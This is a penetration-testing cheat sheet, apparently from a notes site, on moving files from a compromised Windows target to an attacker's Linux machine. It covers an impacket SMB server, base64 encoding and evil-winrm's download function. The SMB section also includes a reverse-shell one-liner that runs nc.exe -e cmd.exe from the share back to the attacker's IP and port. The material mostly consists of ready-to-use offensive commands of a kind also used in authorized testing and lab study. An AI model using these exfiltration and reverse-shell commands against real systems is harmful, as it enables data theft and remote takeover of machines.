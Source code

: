 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2024-6-26
tags: ["Smb", "File System Mounting",  "Http File Transfer", "Remote File Inclusion", "File Transfer", "Windows", "Evil-Winrm"]
---
```


{{< tab set1 tab1 active >}}SMB{{< /tab >}}
{{< tab set1 tab2 >}}Base64{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local SMB Server

```console
impacket-smbserver share . -smb2support
```

#### cmd

```console
# Connect to SMB server without creds
net use \\<LOCAL_IP>\share
```

```console
# Connect to SMB server with creds
net use \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# From target Windows to local Linux
copy <FILE> \\<LOCAL_IP>\share
```

```console
# From local Linux to target Windows
copy \\<LOCAL_IP>\share\<FILE> <FILE>
```

```console
# Delete file
del <FILE>
```

```console
# Remove SMB share
net use /d \\<LOCAL_IP>\share
```

```console
# Older Windows (e.g. xp), use directly
\\<LOCAL_IP>\share\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Small binary

```console
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\<FILE>' -Encoding Byte))
```

```console
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
download 'C:\ProgramData\<FILE>' '<LOCAL_DEST_PATH>'
```

{{< /tabcontent >}}
